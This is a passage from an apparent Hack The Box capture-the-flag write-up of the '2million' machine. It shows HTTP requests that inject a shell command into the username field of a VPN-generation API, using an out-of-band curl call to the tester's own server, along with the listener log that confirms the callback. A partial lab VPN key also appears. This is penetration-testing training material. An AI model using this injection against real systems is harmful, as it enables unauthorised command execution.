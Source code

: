 ```ruby
7952930b85327879cc0333bb96999abe
2d30e4b592890149836d0f1eacd2cb8c
a67776f332ec962bc22051deb9a94a78
2b51bafe2da61c3dc68bbdd39fa35633
e511535e57174665a2495df74f186a83
479944660ba924c91dd9b00f61bc09f5
2fe7039aa114309111580bc5c910b4ac
c9efb55a3f0853e4b6244e3939972ff6
bfd36c19a809981c06a91882b6800549
-----END OpenVPN Static key V1-----
</tls-auth>
```

# Injection
It is guessed that the way to generate the certificate may directly splice Linux commands, and there is command injection. When trying to use the ls command directly, it fails, but when curl runs OOB, the information is successfully obtained, confirming that there is command injection.

```ruby
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=jli1t3sd64rig7par67u26nfv0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 60

{
	"username":"wln5t0n; curl http://10.10.14.55:80/"
}
```

#### Response on my python server 
```ruby
^^/H/TwoMillion >>> python3 -m http.server 80                                                                                                                 12:26:45 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.221 - - [16/Jun/2023 12:27:16] "GET / HTTP/1.1" 200 -
10.10.11.221 - - [16/Jun/2023 12:27:16] code 404, message File not found
10.10.11.221 - - [16/Jun/2023 12:27:16] "GET /.ovpn HTTP/1.1" 404 -
```

Lets test `whoami` 

#### Request
```ruby
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=jli1t3sd64rig7par67u26nfv0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 41

```